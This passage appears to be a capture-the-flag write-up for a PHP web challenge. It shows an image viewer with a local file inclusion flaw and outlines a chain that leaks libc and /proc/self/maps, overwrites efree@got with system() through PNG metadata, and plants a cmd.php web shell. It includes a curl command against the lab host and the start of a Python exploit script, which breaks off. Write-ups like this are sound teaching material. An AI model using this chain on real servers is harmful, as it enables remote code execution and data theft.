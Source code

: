 ## What we have till now.

The binary doesn't have a FULL RELRO, which means we can over the addresses in the global offset table, the problem is we don't have any leaks and PIE is enabled.

## Continue analyzing the application

The web application contains three pages, the view image page is vulnerable to LFI.
```php
<?php
    if (isset($_GET['image'])) {
        $image = urldecode($_GET['image']);
        if (file_exists($image)) {
            echo '<img src="data:image/png;base64,' . base64_encode(file_get_contents($image)) . '" alt="Full Image">';
        } else {
            echo '<p>Image not found.</p>';
        }
    } else {
        echo '<p>No image specified.</p>';
    }
?>
```

It's using file_get_contents() to read the image from GET parameter without checks. We can't read the flag, so it's will not be easy.

## Using the web vulnerability as an exploitation primitive.

We can use the lfi to leak all the virtual map of php by reading `/proc/self/maps`.
We can also read the `libc.so.6` file to get the right offset of functions we want.

## Final Exploit.

1. First use the LFI vulnerability to read the `libc.so.6`.
We can use curl to get the file then get the base64.
```bash
curl localhost:8000/view.php?image=/usr/lib/x86_64-linux-gnu/libc.so.6 | grep base64 | cut -d '"' -f 2 | tee libc.so.6.b64
```
After that we can decode it and get the library.

2. Get the `/proc/self/maps` to get all address we need.
3. Create a png image with metadata to overwrite the second chunk address to be efree@got address.
4. Overwrite efree@got to be system() address from libc, as the extension free the chunks in the end of the function we can control what will be passed to system() which is the content of our metadata.
5. Run shell commands to create a cmd.php file which will be used to run commands.

```python3
#!/usr/bin/python3

from PIL import Image
from PIL.PngImagePlugin import PngInfo
from requests import get, post
from pwn import *
import re
from base64 import b64decode

URL = "http://172.17.0.2:8000"

meta = {
    "Artist": "CCCCC",
    "Title": "Title",
```